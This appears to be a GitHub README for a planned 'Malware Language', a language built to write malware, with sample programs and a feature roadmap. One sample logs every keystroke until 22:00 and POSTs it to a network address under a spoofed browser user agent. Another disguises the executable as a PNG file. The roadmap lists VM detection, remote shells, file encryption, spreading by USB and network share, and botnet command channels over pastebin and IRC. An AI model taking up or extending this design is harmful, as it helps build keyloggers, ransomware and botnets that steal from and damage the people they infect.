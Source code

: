 # Malware Language

Language is only buildable in nix enivorments. But should be able to run on multiple enviroments

### Example code
Basic example
```
use system; @ Imports exit
use keyboard; @ Imports lock, unlock
use window; @ Imports notify

main:{
 keyboard.lock(); @ Locks the keyboard 

 window.notify("Oh hi mark!"); @ Utilizes builtin function

 keyboard.unlock(); @ Unlocks the keyboard
 system.exit();
}
```

Network POST example
```
use system; @ Imports exit
use keyboard; @ Imports log
use network; @ Imports POST
use time; @ Imports until

main:{
 wait:(time.until("22:00")){ @ Waits until 22:00 today before exiting
  info := keyboard.log(); @ Logs everything the user enters
 }

 network.set_user_agent("Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36"); @ Updates the user agent for this request
 network.POST("address", "port", info); @ Will send whatever the user entered 

 system.exit(); @ Exits the program
}
```

Transform example
```
use system;
use object;
use window;

main:{
 object.set_header_target("png"); @ Will result in the end product being identified as a png
 object.set_extension(".png"); @ Sets the program extension
 
 window.notify("Hello, World!"); @ Prints "Hello, World!" to the screen

 system.exit(); @ Exits the program
}
```

## General ideas on what more the language can do
1. Includes tools to check if the malware is running in a vm, what kind of vm(?)
2.Include options to open socket to target, send commands and retrieve results, copy files, mv files etc.
3. Be able to write to specific disk blocks, write & read from the disk.
4. Encrypt files and decryptions methods. Should contain multiple different encryptions methods
5. Able to copy the executable to different locaitons
6. Metasploit compatability? Being able to run metasploit scripts?
7. Using pastebin for sending commands to zombies in a botnet.
8. IRC for sending commands to zombies in a botnet(?)
9. Copy to usb
10. Copy accross network shared folders

## The compiler should then be able to
1. List arguments for the compiler, `-h`
2. Target plattform, windows, nix

## Technical parts
1. All directories created are temporarly and should be deleted when the program is finished
